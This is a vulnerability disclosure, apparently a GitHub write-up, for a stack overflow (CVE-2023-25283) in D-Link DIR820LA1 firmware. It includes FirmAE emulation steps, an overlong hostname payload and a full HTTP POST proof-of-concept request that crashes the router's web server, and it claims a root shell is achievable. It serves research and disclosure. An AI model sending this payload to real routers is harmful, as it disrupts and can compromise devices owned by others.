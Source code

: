 # D-link DIR820LA1_FW106B02 Stack Overflow  vulnerability

A stack overflow vulnerability  in the variable "reserveDHCP_HostName_1.1.1.0" of the component "lan.asp" of D-Link DIR820LA1_FW106B02 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： https://www.dlinktw.com.tw/techsupport/download.ashx?file=3068

## 1. Affected version

![pic](pic.png)Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_50A084` function obtains the content of the variable `reserveDHCP_HostName_1.1.1.0`  from the request of `/get_set.ccp`, use sprintf to copy input data. The length of the string is not considered, and the stack overflows when the input is too long.

v21's buffer is only 68 bytes

![vuln1](vuln1.png)

![vuln2](vuln2.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW106B02.bin

```shell
./init.sh
sudo ./run.sh -c <brand> DIR820LA1_FW106B02.bin
```

![D-link](D-link.png)

2. Attack with the following POC attacks

​	**Attack Vector**：

`reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa`

![DHCP](DHCP.png)

- Then find the DHCP Setting entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 917
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=dlinkrouter&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&reserveDHCP_Enable_1.1.1.0=1&reserveDHCP_HostName_1.1.1.0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa&reserveDHCP_Chaddr_1.1.1.0=C6:E0:6F:4C:9B:A5&reserveDHCP_Yiaddr_1.1.1.0=192.168.0.100&1675231457867=1675231457867
```

- web server crashed

![crash](crash.png)



Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.



## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25283

